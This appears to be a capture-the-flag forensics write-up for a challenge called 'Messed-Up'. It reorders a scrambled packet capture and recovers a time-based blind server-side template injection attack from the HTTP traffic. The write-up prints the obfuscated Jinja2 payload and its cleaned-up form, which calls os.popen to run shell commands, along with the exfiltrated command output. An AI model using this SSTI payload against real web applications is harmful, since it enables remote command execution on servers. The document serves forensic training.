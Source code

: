 ## Judul Soal
Messed-Up

## Deskripsi Soal
>If I was more careful enough to organize my stuffs.<br>Author: コト

## Hint Soal
- It's been a while, since I managed my task in a proper order

---

## Penjelasan Penyelesaian Soal
Given a `xz compressed` file, contained packet-capture file named `messed-up.pcap`.<br><br>
Based on `static analysis`, we found several improper `packet.frame` like negative `time difference` & weird `3-way of handshake` (ACK packet without preceeded SYN-ACK or SYN packet) 

```bash
$ tshark -r messed-up.pcap | head                                          

    1   0.000000 0.000000000   172.90.0.2 → 172.90.0.1   TCP 66 80 → 40920 [ACK] Seq=1 Ack=1 Win=499 Len=0 TSval=4208859833 TSecr=1930426915
    2 295.713297 295.713297000   172.90.0.2 → 172.90.0.1   HTTP 2671 HTTP/1.1 200 OK  (text/html)
    3 186.075311 -109.637986000   172.90.0.1 → 172.90.0.2   TCP 66 43954 → 80 [ACK] Seq=1 Ack=1 Win=501 Len=0 TSval=1930612990 TSecr=4209045908
    4 256.836423 70.761112000   172.90.0.1 → 172.90.0.2   TCP 66 45172 → 80 [ACK] Seq=1 Ack=1 Win=501 Len=0 TSval=1930683751 TSecr=4209116669
    5 507.653147 250.816724000   172.90.0.2 → 172.90.0.1   TCP 66 80 → 49416 [ACK] Seq=1 Ack=1 Win=501 Len=0 TSval=4209367486 TSecr=1930934528
    6 -184.626597 -692.279744000   172.90.0.1 → 172.90.0.2   TCP 66 37686 → 80 [ACK] Seq=1 Ack=1 Win=501 Len=0 TSval=1930242288 TSecr=4208675206
    7 172.427445 357.054042000   172.90.0.2 → 172.90.0.1   TCP 66 80 → 43750 [ACK] Seq=1 Ack=1 Win=501 Len=0 TSval=4209032260 TSecr=1930599342
    8 -301.420134 -473.847579000   172.90.0.2 → 172.90.0.1   HTTP 2671 HTTP/1.1 200 OK  (text/html)
    9 455.818461 757.238595000   172.90.0.1 → 172.90.0.2   HTTP 496 GET /login HTTP/1.1 
   10 -450.676476 -906.494937000   172.90.0.1 → 172.90.0.2   TCP 66 33238 → 80 [ACK] Seq=1 Ack=1 Win=501 Len=0 TSval=1929976238 TSecr=4208409156

```

According to the `hint`, we knew that each `frame.packet` were not in a proper order. Using `reordercap` we can restore the correct `packet capture`

```bash
$ reordercap messed-up.pcap ordered.pcap
$ tshark -r ordered.pcap | head  

    1   0.000000 0.000000000   172.90.0.1 → 172.90.0.2   TCP 74 32828 → 80 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 SACK_PERM=1 TSval=1929950335 TSecr=0 WS=128
    2   0.000055 0.000055000   172.90.0.2 → 172.90.0.1   TCP 74 80 → 32828 [SYN, ACK] Seq=0 Ack=1 Win=65160 Len=0 MSS=1460 SACK_PERM=1 TSval=4208383253 TSecr=1929950335 WS=128
    3   0.000080 0.000025000   172.90.0.1 → 172.90.0.2   TCP 66 32828 → 80 [ACK] Seq=1 Ack=1 Win=64256 Len=0 TSval=1929950335 TSecr=4208383253
    4   0.000246 0.000166000   172.90.0.1 → 172.90.0.2   HTTP 351 POST /register HTTP/1.1  (application/x-www-form-urlencoded)
    5   0.000275 0.000029000   172.90.0.2 → 172.90.0.1   TCP 66 80 → 32828 [ACK] Seq=1 Ack=286 Win=64896 Len=0 TSval=4208383253 TSecr=1929950335
    6   0.091390 0.091115000   172.90.0.2 → 172.90.0.1   HTTP 502 HTTP/1.1 302 FOUND  (text/html)
    7   0.091408 0.000018000   172.90.0.1 → 172.90.0.2   TCP 66 32828 → 80 [ACK] Seq=286 Ack=437 Win=64128 Len=0 TSval=1929950426 TSecr=4208383344
    8   0.094483 0.003075000   172.90.0.1 → 172.90.0.2   HTTP 228 GET /login HTTP/1.1 
    9   0.094537 0.000054000   172.90.0.2 → 172.90.0.1   TCP 66 80 → 32828 [ACK] Seq=437 Ack=448 Win=64768 Len=0 TSval=4208383347 TSecr=1929950429
   10   0.098638 0.004101000   172.90.0.2 → 172.90.0.1   HTTP 2596 HTTP/1.1 200 OK  (text/html)
                                                                                                
```

Here we found several `HTTP` packet contained `Server Side Template Injection` (SSTI) as shown as:

```bash
$ tshark -r ordered.pcap -Y 'urlencoded-form' -Tfields -e urlencoded-form.value | head -12

guest,12345,test@123.com
12345,test@123.com
10+10
{{ 2*2 }}
{{ flag }}
{{ request }}
{{ config }}
{{ username }}
{{ ().__class__ }}
{% if username == username %} 1337 {% endif %}
{% set tes = username[0] %} {% if tes == username[0] %} 1337 {% endif %}
request[email[18]+email[-71]+email[25]+email[90]+email[3]+email[-27]+email[-78]+email[-8]+email[-93]+email[-95]+email[29]]

```

We also found a response `Non-number operation are not supported` that implies `webservice` only accept `numerical result`

Furthermore, we also found that `attacker` tried to conduct `Blind Injection` using `delay time` as the indicator. For example:

```bash
# Payload we found:

{% set p = request[email[54]+email[-61]+email[35]+email[-59]+email[-95]+email[-70]+email[-42]+email[-21]+email[-95]+email[-47]+email[79]][email[32]+email[-64]+email[71]+email[37]+email[49]+email[2]+email[-42]+email[37]+email[68]+email[-64]+email[32]][email[32]+email[-64]+email[-94]+email[45]+email[1]+email[37]+email[75]+email[1]+email[79]+email[68]+email[32]+email[32]][email[32]+email[-64]+email[1]+email[9]+email[35]+email[49]+email[36]+email[-21]+email[32]+email[-64]](email[-47]+email[68])[email[35]+email[49]+email[35]+email[80]+email[-17]] %}{% if p(email[35]+email[-11]+email[-53])[email[-60]+email[-16]+email[54]+email[-53]]()[5][email[32]+email[32]+email[-16]+email[48]+email[-64]+email[-64]](email[-42]) %} {{ p(email[-28]+email[37]+email[80]+email[-16]+email[35]+email[72]+email[-12]+email[11]+email[56]+email[57])[email[-60]+email[80]+email[-42]+email[43]]() }} {% endif %}


# After some clean-up:

{% set p = request[application][__globals__][__builtins__][__import__](os)[popen] %}{% if p(pwd)[read]()[5][__eq__](a) %} {{ p(sleep 0.75)[read]() }} {% endif %}

```

Thus, we need a way to exfiltrate each `packet.frame` that have > `0.75 s` time difference, in order to extract the correct `response text`.

Using the solver script, we obtained:

```bash
$ python2 sv.py       
$ pwd
/opt/app

$ ls flag*
flag.zip

$ cat flag.zip
sh: cat: not found

$ base64 flag.zip
UEsDBBQDAAAIAEeTRlFrhl3uRwAAAE4AAAAIAAAAZmxhZy50eHQFwUsKgDAMBcC9p2loV17mYTGW
UhIhiT/EuzvTWBaPPii/WzL4LhnGxZOCcBVH2EPaEAlSBoMClSPYANQjoHxmk64r5vubflBLAQI/
AxQDAAAIAEeTRlFrhl3uRwAAAE4AAAAIACQAAAAAAAAAIIDAgQAAAABmbGFnLnR4dAoAIAAAAAAA
AQAYAAAP43/Tm9YBAA/jf9Ob1gEAjd8pDpzWAVBLBQYAAAAAAQABAFoAAABtAAAAAAA=

$ hostname
904db8da79f8

$ whoami
root

```

After extracting `flag.zip`, we finally found expected `flag.txt`